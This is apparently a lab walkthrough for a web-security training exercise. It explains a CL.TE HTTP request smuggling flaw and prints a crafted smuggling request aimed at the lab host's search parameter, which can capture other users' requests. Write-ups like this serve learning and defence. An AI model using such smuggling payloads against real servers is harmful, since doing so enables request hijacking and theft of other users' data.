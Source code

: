 It generates a POST request and the value is in the “search” parameter:

![img](media/8f06b75f349e331711356313c89936d7.png)

It is reflected inside a h1 element:

![img](media/1288b3f4af4cc0696da9d8e7cf13abf6.png)

"Front-end server doesn't support chunked encoding" means this page suffers a
CL.TE type of HTTP request smuggling. Knowing this and that the search function
is a POST request to “/” using the parameter “search”, we can use this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0ac500e8047b641f8198991e00ce0039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/67d1e6d986b015e56a5707b440e0a511.png)
